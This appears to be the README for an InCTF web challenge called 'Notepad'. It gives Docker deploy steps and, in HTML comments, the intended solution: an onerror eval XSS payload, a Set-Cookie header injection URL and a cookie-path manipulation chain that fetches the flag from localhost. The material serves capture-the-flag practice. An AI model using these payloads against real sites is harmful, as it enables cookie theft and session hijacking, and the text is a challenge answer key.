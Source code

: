 Name  : Notepad

Desc  : {tbd}

Flag  : inctf{{tbd}}

Deploy: 
- docker build -t notepad1 . 
- docker run notepad1


<!-- Payload my end

<img src=x onerror=eval(atob(location.hash.substr(1)))></img>
 -->

<!-- Admin Side : Window.Open to set cookie

http://localhost:3000/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get
-->

<!-- Admin Side : Window.Open to xss 

document.cookie="id=47ed733b8d10be225eceba344d533586;expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;";fetch('/get').then(response=>response.text()).then(data=>console.log(data))


http://localhost:3000/#document.cookie=%22id=68b329da9893e34099c7d8ad5cb9c940;%20expires=Thu,%2001%20Jan%201970%2000:00:00%20UTC;path=/get;%22;document.cookie=x;fetch('/get').then(response=%3Eresponse.text()).then(data=%3Econsole.log(data));
-->

